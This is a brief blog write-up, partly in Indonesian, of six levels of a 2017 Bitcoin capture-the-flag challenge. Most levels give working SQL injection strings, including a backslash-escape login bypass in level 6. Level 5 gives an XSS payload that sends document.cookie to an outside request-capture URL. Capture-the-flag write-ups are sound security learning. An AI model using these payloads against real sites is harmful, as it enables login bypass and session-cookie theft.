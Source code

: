 ```yaml
---
private: 'false'
modified: 2017-03-23
date: 2017-03-23
layout: post
featured: false
published: true
comments: true
title: 'BitcointCTF 2017: Writeups'
tags: [sqlinjection,bitcoinctf]
mathjax: false
imagefeature: /images/sqlinjection.jpg
description: Writeup BitcointCTF Challenge
category: CTF
chart: null
---
```



## Bitcoin CTF ($)

FIRST LEVEL: http://188.166.248.215/ 

prize: 1BtCctfV3MFXQ9zfLq8BkK53cpGdmkA2WL 

what: capture the flag \(CTF\) 

when: 1490349600 irc: \#bitcoinctf on freenode questions: @bitcoinctf or &lt;bitcoinctf \[at\] gmail.com&gt;



### Level 1

Soal : [http://188.166.248.215/](http://188.166.248.215/)

Injection : `1 or (1=1)#`

![](/images/level1-bitcoinctf.png)

### Level 2

Soal : [http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/](http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/)

Injection : `12' or '1'='1`

![](/images/level2-bitcoinctf.png)

### Level 3

Soal : [http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/](http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/)

Injection : `a' or 1=1#`

![](/images/level3-bitcoinctf.png)

### Level 4

Soal : [http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/](http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/)

Injection : `0 -- ' or '1'='1' -- " or "1"="1`

![](/images/level4-bitcoinctf.png)

### Level 5

Soal : [http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/](http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/)

Injection : `<img src=x onerror=this.src='http://requestb.in/191nnlq1?c='+document.cookie>`

![](/images/level5-bitcoinctf.png)

![](/images/level5-bitcoinctf-2.png)



### Level 6

Soal : [http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/](http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/)

  
setelah beberapa kali melakukan injeksi basic seperti `' OR 1=1#` pada kolom username dan password nampaknya tidak berjalan kemudian saya menebak query di backendnya seperti ini : `SELECT * from users where username='$user' and pasword = '$pass'`  


ketika kita coba kirim payload : `aaa\ & password= xxx `

query sebenarnya :` SELECT * from users where username='aaa\' and pasword = ' xxx'`



ketika kita coba kirim payload : `username = aaa\ & password= OR 1=1#`

query sebenarnya : `SELECT * from users where username='aaa\' and pasword = ' OR 1=1#'`

![](/images/level6-bitcoinctf.png)






